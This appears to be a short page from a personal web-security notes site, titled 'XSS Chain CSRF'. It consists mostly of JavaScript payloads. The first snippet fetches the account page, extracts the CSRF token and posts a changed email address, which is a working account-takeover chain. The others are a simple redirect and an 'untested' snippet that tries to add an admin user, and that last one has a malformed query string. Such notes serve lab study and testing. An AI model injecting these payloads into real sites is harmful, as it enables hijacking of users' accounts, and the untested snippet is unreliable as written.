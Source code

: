 ```yaml
---
title: XSS Chain CSRF
layout: default
parent: XSS
has_children: false
nav_order: 7
---
```


1. The request below will send a GET request to `/my-account`, and subsequently a POST request to `/my-account/change-email`

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

2. XSS to open redirect:

```
// Redirect the user to another URL within the same domain
function redirectTo(urlPath) {
    // Redirect to the specified URL
    window.location.href = urlPath;
}

// redirect to "/new-page"
redirectTo("/new-page");
```

3. Alternative untested:

```
var xhttp = new XMLHttpRequest();
var creds = 'email=peter@pan.com&password=test&name=test&username=test';
xhttp.open("GET", "/admin/users/add" + creds, true);
xhttp.send();
```